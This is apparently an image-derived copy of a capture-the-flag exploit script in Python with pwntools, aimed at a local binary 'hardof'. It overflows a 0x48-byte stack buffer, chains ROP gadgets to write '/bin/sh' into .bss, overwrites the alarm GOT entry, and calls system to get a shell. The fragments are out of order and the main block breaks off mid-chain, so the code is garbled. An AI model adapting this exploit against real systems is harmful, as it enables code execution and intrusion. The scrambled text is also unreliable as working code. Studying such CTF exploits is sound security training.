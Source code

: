 ```python
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
    p.interactive()
```
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    bss = 0x601038
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(read_plt) + p64(main_addr)
    #gdb.attach(p)
    sn(buff)
    sleep(1)
    
    sn('/bin/sh\x00')
    sleep(1)
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) 
```